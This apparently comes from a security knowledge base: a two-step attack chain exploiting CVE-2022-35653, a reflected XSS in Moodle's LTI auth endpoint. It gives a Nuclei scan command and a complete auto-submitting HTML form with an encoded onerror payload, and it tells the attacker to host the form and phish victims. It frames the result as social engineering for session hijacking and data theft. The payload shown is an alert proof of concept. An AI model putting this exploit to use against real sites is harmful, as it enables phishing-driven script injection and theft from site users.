

# Reflected XSS in Moodle LTI Module for Arbitrary JavaScript Execution

Multi-stage attack chain demonstrating exploitation of CVE-2022-35653, a reflected XSS in Moodle's LTI module, to inject and execute malicious JavaScript in victims' browsers, potentially leading to session hijacking, data exfiltration, or site defacement.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Nuclei]]

### Target Environment

- Web platform running Moodle with LTI module enabled
- Access to HTTP/HTTPS endpoint /mod/lti/auth.php
- No specific ports required beyond standard web (80/443)

### Initial Access Requirements

- Network access to the target Moodle instance
- Ability to host or send phishing links/forms to victims
- No prior credentials needed for scanning

## Detailed Attack Procedures

### Step 1: Scan for Vulnerability
procedure: [[procedures/Scan-for-Moodle-LTI-Reflected-XSS-Using-Nuclei]]

**Objective**: Detect the reflected XSS vulnerability in the Moodle LTI module using automated scanning.

**Instructions**: Install and run Nuclei with the specific template for CVE-2022-35653 to send a crafted POST request and check for reflection indicators.

Use [[commands/nuclei-moodle-xss-scan]] to execute the scan:

```bash
nuclei -u https://target.com -t cves/2022/CVE-2022-35653.yaml -v
```

**Expected Output**: Nuclei reports the vulnerability if the payload reflects in the response with indicators like 'moodle-editor' and status 200.

**Success Indicators**:
- Nuclei output shows matched vulnerability
- Response contains reflected payload and HTML content type

### Step 2: Deliver Payload
procedure: [[procedures/Deliver-Reflected-XSS-Payload-via-Auto-Submitting-HTML-Form]]

**Objective**: Trick a victim into loading a malicious page that auto-submits the XSS payload to the target endpoint, executing JavaScript in their browser.

**Instructions**: Create an HTML page with a hidden form that posts the payload to the LTI auth endpoint, then host or send it via phishing. The form auto-submits using JavaScript to push state and submit.

Use [[commands/deliver-xss-html-form]] by saving the HTML snippet to a file and hosting it:

```html
<html>
<body>
<form action="https://target.com/mod/lti/auth.php?" method="POST">
<input type="hidden" name="xxx&quot;&gt;&lt;img&#47;src&#61;&apos;x&apos;onerror&#61;alert&#40;&apos;document&#95;domain&apos;&#41;&gt;" value="1" />
<input type="submit" value="Submit request" />
</form>
<script>
history.pushState('', '', '/');
document.forms[0].submit();
</script>
</body>
</html>
```

Host this on a server and send the link to the victim.

**Expected Output**: Victim's browser executes the alert('document_domain') and any further JavaScript payload.

**Success Indicators**:
- Alert pops up in victim's browser
- JavaScript executes in the context of the Moodle site

## Attack Chain Summary

### Key Achievements

1. Automated detection of the XSS vulnerability without manual testing
2. Delivery of payload via social engineering for real-world exploitation
3. Achievement of arbitrary code execution in victim browsers for data theft or further attacks

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2024-01-01T00:00:00Z*
